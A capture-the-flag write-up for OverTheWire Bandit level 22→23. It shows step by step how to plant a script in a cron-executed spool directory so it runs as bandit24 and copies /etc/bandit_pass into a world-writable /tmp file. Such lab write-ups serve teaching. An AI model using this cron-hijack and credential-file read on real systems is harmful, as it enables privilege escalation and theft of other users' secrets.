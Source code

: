 # Bandit Level 22 → Level 23

---

## 🎯 Objective

A script is being run automatically via `cron`. Your goal is to:
- Discover what script is being executed
- Exploit it to run your own code
- Extract the password for `bandit24`

You’ll write your **first custom shell** script to do this.



---


## 🛠️ Commands Used (with explanations)

- `ls` - Lists files and directories in the current location.
  - `-l` - Lists files with detailed permissions, ownership, and size information.
- `cat` - Displays the contents of a file.
- `nano` - A simple text editor used to write and edit files.
- `touch` - Creates an empty file or updates the timestamp of an existing one.
- `mktemp`- Creates a new temporary file with a unique name
  - `-d` - Creates a new temporary directory with a unique name.
- `cd` - Changes the current working directory.
- `chmod` - Changes file or directory permissions.
  - `777` - Grants read, write, and execute permissions to everyone (user, group, others).
- `cp` - Copies files or directories.
  
---

## 🚀 Steps to Solve
1. **Open your terminal**

2. **Run the following command to log into the server**:

```bash
ssh bandit23@bandit.labs.overthewire.org -p 2220
```

3. **Enter the password**

4. **Look inside `/etc/cron.d/` for cron job**:
```bash
ls /etc/cron.d/
```
  - You should see:
```bash
clean_tmp  cronjob_bandit22  cronjob_bandit23  cronjob_bandit24  e2scrub_all  otw-tmp-dir  sysstat
```

5. **Read the contents of the cron job**:
```bash
cat /etc/cron.d/cronjob_bandit24
```
  - You should see:
    ```bash
    @reboot bandit24 /usr/bin/cronjob_bandit24.sh  &> /dev/null
    * * * * * bandit24 /usr/bin/cronjob_bandit24.sh  &> /dev/null
    ```
    
6. **Read the script that is being run**:
```bash
cat /usr/bin/cronjob_bandit24.sh
```
  - You should see:
       ```bash
       #!/bin/bash
       
       myname=$(whoami)
       
       cd /var/spool/$myname/foo
       echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
       for i in * .*;
       do
         if [ "$i" != "." -a "$i" != ".." ];
         then
           echo "Handling $i"
           owner="$(stat --format "%U" ./$i)"
            if [ "${owner}" = "bandit23" ]; then
                timeout -s 9 60 ./$i
            fi
            rm -f ./$i
        fi
      done
       ```
       - The scheduled task is executing scripts inside `/var/spool/$myname/foo`, deleting them after execution 
       - `$myname` = `bandit24` - since its executed inside `bandit24's` space
       - Therefore, our script needs to go into `/var/spool/bandit24/foo`
   
         
7. **Create a `tmp` directory to work in**:
```bash
mktemp -d
```
  - You should see:
    ```bash
    /tmp/tmp.<tmp_directory>
    ```
    
8. **Move into `/tmp/tmp.<tmp_directory>`**:
```bash
cd /tmp/tmp.<tmp_directory>
```

9. **Create a script**:
```bash
touch tmp.sh
 ```

10. **Open, edit, and save the script**:
```bash
nano tmp.sh
 ```
  - I prefer nano, but options like vim also work
  - Add the following script:
    ```bash
    myname=$(whoami)

    cat /etc/bandit_pass/$myname > /tmp/tmp.<tmp_directory>/password
    ```
      - This script is from the `bandit22` level
      - We are saving the `bandit24` password to a file, called password, in `<tmp_directory>`
        
11. **Create the password file**:
```bash
nano password
 ```

12. **Set permissions**:
```bash
chmod 777 <tmp_directory>
chmod 777 tmp.sh
chmod 777 password
 ```
- `chmod 777 tmp.sh` - Makes the script executable by all users, including `bandit24`, so the cron job can run it.
- `chmod 777 password` - Makes the output file writable by `bandit24`, so the script can write the password to it
- `chmod 777 <tmp_directory>` - Ensures the directory is accessible (read/write/execute) by `bandit24`:
    - Read to list files
    - Write to create or modify files
    - Execute to enter/access the directory - without this permissions, the `password` cannot be accessed
        
13. **Check permissions**:
```bash
ls -l
 ```
- You should see:
  ```bash
  -rwxrwxrwx 1 bandit23 bandit23 33 Jun  8 17:27 password
  -rwxrwxrwx 1 bandit23 bandit23 78 Jun  8 17:14 tmp.sh
  ```
  
   
14. **Copy the script into `/var/spool/bandit24/foo/`**:
```bash
cp tmp.sh /var/spool/bandit24/foo/
```
- Wait 1-2 minutes for the cron job to run

15. **Display the contents of `password`**:
```bash
cat password
 ```

Thats the password for `bandit24`

---

## 🎉 You’ve now completed Level 23 → Level 24!


---

## 🧠 Lessons Learned / Notes
- This level teaches **privilege escalation through writable cron-controlled directories**.

- Writing simple bash scripts is a powerful skill.

- `/tmp` is world-writable and readable - great for sharing data between users, but a security risk in real-world systems.

- While `chmod 777` works for this challenge (since it's a CTF-style learning environment), it's generally **insecure in production systems**. It gives full read/write/execute permissions to everyone, including malicious users.
